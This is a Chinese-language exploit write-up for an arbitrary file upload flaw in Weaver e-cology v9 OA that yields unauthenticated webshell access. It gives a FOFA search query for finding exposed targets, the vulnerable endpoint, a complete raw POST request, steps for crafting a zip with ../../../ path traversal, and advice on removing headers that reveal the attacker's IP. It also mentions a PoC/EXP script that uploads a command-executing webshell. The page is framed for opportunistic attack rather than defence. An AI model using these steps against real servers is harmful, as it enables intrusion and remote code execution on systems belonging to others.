




# 1、漏洞描述


泛微OA weaver.common.Ctrl 存在任意文件上传漏洞，可在前台直接getshell，漏洞危害很大，见到路过不要错过。

使用fofa可搜索泛微OA相关的系统，不过不一定是存在漏洞的系统，需要尝试；

```
app="泛微-协同办公OA"
```

# 2、影响范围

泛微e-cology v9

# 3、漏洞验证

## 3.1、漏洞URL

此漏洞的深度成因暂未做研究，个人理解的是，此处存在上传功能，并且上传压缩包后，会自动解压，而此处文件名包含三层目录结构，则是为了将被压缩文件解压到可访问执行的目录中；

漏洞的URL如下（重点是URI部分）

```
http://x.x.x.x:port/weaver/weaver.common.Ctrl/.css?arg0=com.cloudstore.api.service.Service_CheckApp&arg1=validateApp
```

若页面返回状态码为200，则可能存在漏洞；



若页面返回状态码404，则不存在漏洞；

## 3.2、漏洞验证/利用

可使用成型的POC脚本批量验证/利用，也可手动单个验证；

### 3.2.1、手动验证

1. 用本地任意一个上传程序，burpsuit对上传文件的过程抓包；
2. 修改URI、HOST、	POST表单中的name名称（改成file1）、POST表单中的Content-Type（改成图中的格式）、burpsuit中的Target，注意最好删除本地上传抓包内容中存在个人IP的head信息，如origin、refer等；



1. 按如上步骤修改完成后，发送请求，若页面返回200，然后访问被上传文件的URL，http://x.x.x.x:port/cloudstore/welcome.txt，页面返回文件内容即是存在漏洞。


POST包（==只用作参考，方便复制一些要修改的地方，还需自己本地抓上传包，因压缩包文件传输存在无法识别的内容，无法直接复制==）：

```
POST 
/weaver/weaver.common.Ctrl/.css?arg0=com.cloudstore.api.service.Service_CheckApp&arg1=validateApp HTTP/1.1
Host: x.x.x.x:8001
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:89.0) Gecko/20100101 Firefox/89.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------97014110427240678953456189835
Content-Length: 536
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1

-----------------------------97014110427240678953456189835
Content-Disposition: form-data; name="file1"; filename="welcome.zip"
Content-Type: application/zip

PK
-----------------------------97014110427240678953456189835
Content-Disposition: form-data; name="submit"

ä¸Šä¼ 
-----------------------------97014110427240678953456189835--
```

**注意：**

- 上传的文件必须是个zip压缩文件；

- 被压缩的文件名要有../../../的三层目录结构，比如../../../test.txt，因Windows文件名不能有/，可先压缩文件，然后用7z解压缩软件打开该压缩包，重命名被压缩的文件，添加上三层目录结构的命名；

- 不少站是能上传上去，但是访问存在的文件时，会跳转到登陆页面，也就是说只能传，但不能利用；

  

### 3.2.2、脚本EXP验证/利用

poc与exp结合，建议先poc验证，结合框架，poc可批量，同时打印poc的url，方便验证；

exp上传的是个能执行命令的webshell，打印webshell地址，可直接执行命令。

